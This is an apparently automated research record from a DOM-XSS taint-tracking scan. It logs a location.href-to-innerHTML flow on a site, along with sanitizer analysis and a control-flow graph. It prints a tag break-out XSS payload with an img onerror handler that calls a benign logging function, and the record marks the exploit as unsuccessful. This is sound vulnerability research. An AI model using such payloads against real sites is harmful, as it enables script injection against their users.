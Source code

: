 // Finding: 0688f96d-c9fc-4362-b348-f58e0723f5a4
// Finding.url: https://example76.com/vacancy/42716455##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2883a1efc7834867be8fc419165b5637')><!--/*
// Finding.parentloc: https://example76.com/vacancy/42716455##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2883a1efc7834867be8fc419165b5637')><!--/*
// Finding.domain: example76.com
// Finding.base_domain: example76.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 3
// Sanitizer.name: C
// Sanitizer.location: https://i.example76.com/webpackBuild/vendors.bcef8dc5f844c3b31ed1.js - <anonymous>:293:35678
// Finding.begin: 758
// Finding.end: 764
// Finding.original_uuid: b39225e0-8eee-4dc1-9e84-627e6312ca4d
// Finding.TwentyFiveMillionFlowsId: -370970000
// Finding.script: https://i.example76.com/webpackBuild/154.20665ef49b0006ab14cf.js
// Finding.line: 1
// Exploit.uuid: 2883a1ef-c783-4867-be8f-c419165b5637
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 30
// Exploit.replace_begin_url: 30
// Exploit.replace_end_url: 30
// Exploit.replace_begin_param: 564
// Exploit.replace_end_param: 564
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: true
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: true
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -880408191
// DepGraph.sanitizer_hash: -1296451962
// Removed LR concats 
// Non Finite Regex with function on rhs:  replace([!'()~]|%20/g: 1, s: 0, u: 0, m: 0, i: 0 [escapes(': 1, (: 1, ): 1), function_rhs: true], 'function(t){return k[t]}') - Left hand side has to be a range 
// Approximated Implementation for:  replace([!'()~]|%20/g: 1, s: 0, u: 0, m: 0, i: 0 [escapes(': 1, (: 1, ): 1), function_rhs: true], 'function(t){return k[t]}') - Left hand side has to be a range 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="preg_replace"];
n4 [shape=box, label="RegExp: /[!'()~]|%20/"];
n5 [shape=box, label="Lit: "];
n6 [shape=box, label="Var: x"];
n7 [shape=box, label="Var: x"];
n8 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n7 -> n3;
n8 -> n7;
}
